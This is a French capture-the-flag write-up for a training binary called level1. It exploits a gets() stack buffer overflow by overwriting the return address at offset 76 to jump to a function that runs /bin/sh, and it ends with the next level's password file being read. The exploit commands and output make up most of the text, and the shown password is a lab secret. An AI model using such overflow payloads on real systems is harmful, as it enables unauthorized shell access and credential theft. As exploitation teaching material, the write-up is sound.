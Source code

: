 # Level1

On observe un executable a la racine `level1`

```bash
$ ./level1
Hello World

$ python -c 'print "A"*100' | ./level1
Segmentation fault (core dumped)
```

On cherche donc a comprendre ce que fait l'executable

```bash
$ gdb level1 -q
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:   push   ebp
   0x08048481 <+1>:   mov    ebp,esp
   0x08048483 <+3>:   and    esp,0xfffffff0
   0x08048486 <+6>:   sub    esp,0x50
   0x08048489 <+9>:   lea    eax,[esp+0x10]
   0x0804848d <+13>:  mov    DWORD PTR [esp],eax
   0x08048490 <+16>:  call   0x8048340 <gets@plt>
   0x08048495 <+21>:  leave
   0x08048496 <+22>:  ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir un idee plus clair de `level1`

```bash
$ scp -P 4242 -r level1@192.168.56.102:/home/user/level1/level1 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level1
```

_resultat sauvegarde dans [source.md](source.md)_

On peut remarquer que `undefined auStack80 [76]`, on peut essayer de remplir la place qu'y nous etes aloue

```bash
$ python -c 'print "A"*75' | ./level1

$ python -c 'print "A"*76' | ./level1
Illegal instruction (core dumped)

$ python -c 'print "A"*77' | ./level1
Illegal instruction (core dumped)

$ python -c 'print "A"*78' | ./level1
Segmentation fault (core dumped)
```

- `python -c 'print "A"*75'` est notre taille aloue maximum (75 + 1 = 76 pour le `\n` automatique du print de python)

- `python -c 'print "A"*76'` et `python -c 'print "A"*77'`, on ecrit pardessus EBP sauvegarde

- `python -c 'print "A"*78'`, on ecrit pardessus EIP

On remarque aussi, grace a `Cutter` qu'il y a une fonction `run` bien pratique colle a main qui fait un appel a `/bin/sh`

```bash
run ();
0x08048444      push    ebp
0x08048445      mov     ebp, esp
0x08048447      sub     esp, 0x18
0x0804844a      mov     eax, dword [stdout]
0x0804844f      mov     edx, eax
0x08048451      mov     eax, str.Good..._Wait_what
0x08048456      mov     dword [stream], edx
0x0804845a      mov     dword [nitems], 0x13
0x08048462      mov     dword [size], 1
0x0804846a      mov     dword [esp], eax
0x0804846d      call    fwrite
0x08048472      mov     dword [esp], str.bin_sh
0x08048479      call    system
0x0804847e      leave
0x0804847f      ret

int main (int argc, char **argv, char **envp);
0x08048480      push    ebp
0x08048481      mov     ebp, esp
0x08048483      and     esp, 0xfffffff0
0x08048486      sub     esp, 0x50
0x08048489      lea     eax, [s]
0x0804848d      mov     dword [esp], eax
0x08048490      call    gets
0x08048495      leave
0x08048496      ret
0x08048497      nop
```

On a une porte d'entre, plus une clef. Plus qu'a rassembler tout ca en meme temps

```bash
$ python -c 'print "A"*76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

_Hmm..._

Le programme se ferme avant que l'on ai le temps de faire quoi que ce soit.

Mais grace a `cat`, nous avons un moyen de retarder la fermeture de `level1`

```bash
$ (python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
Ctrl+D
Segmentation fault (core dumped)

level1:$ su level2
Password:

level3:$
```

